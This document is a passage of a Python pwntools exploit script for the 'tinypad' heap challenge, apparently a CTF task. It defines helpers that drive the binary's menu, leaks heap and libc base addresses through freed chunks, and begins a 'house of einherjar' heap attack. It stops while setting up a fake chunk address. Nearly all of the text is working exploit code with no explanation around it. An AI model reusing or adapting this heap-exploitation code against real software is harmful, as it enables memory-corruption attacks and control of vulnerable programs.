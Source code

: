 #### exp
```python
from pwn import *

p = process("./tinypad")
elf = ELF("./tinypad")
libc = ELF("./libc.so.6")

context.log_level = 'debug'
context.terminal = ['tmux','splitw','-h']

def add(size, content):
    p.recvuntil(b'(CMD)>>> ')
    p.sendline(b'a')
    p.recvuntil(b'(SIZE)>>> ')
    p.sendline(str(size).encode())
    p.recvuntil(b'(CONTENT)>>> ')
    p.sendline(content)

def edit(idx, content):
    p.recvuntil(b'(CMD)>>> ')
    p.sendline(b'e')
    p.recvuntil(b'(INDEX)>>> ')
    p.sendline(str(idx).encode())
    p.recvuntil(b'(CONTENT)>>> ')
    p.sendline(content)
    p.recvuntil(b'Is it OK?\n')
    p.sendline(b'Y')

def delete(idx):
    p.recvuntil(b'(CMD)>>> ')
    p.sendline(b'd')
    p.recvuntil(b'(INDEX)>>> ')
    p.sendline(str(idx).encode())

# leak heap_base
add(0x70,b'a'*8) #1
add(0x70,b'b'*8) #2
add(0x100,b'c'*8) #3
delete(2)
delete(1) #1
p.recvuntil(b'CONTENT: ')
leak = u64(p.recv(4).ljust(8,b'\x00'))
heap_base = leak - 0x80
log.success("heap_base ==> " + hex(heap_base))

# leak libc_base
delete(3)
p.recvuntil(b'CONTENT: ')
leak = u64(p.recv(6).ljust(8,b'\x00'))
main_arena = leak - 88
libc_base = leak - 0x3c4b78
log.success("main_arena ==> " + hex(main_arena))
log.success("libc_base ==> " + hex(libc_base))

# house of einherjar
add(0x18,b'a'*0x18) #1
add(0x100,b'b'*0xf8+b'\x11') #2
add(0x100,b'c'*0xf8) #3
add(0x100,b'd'*0xf8) #4

tinypad_addr = 0x602040 
fake_chunk_addr = tinypad_addr + 0x20 
```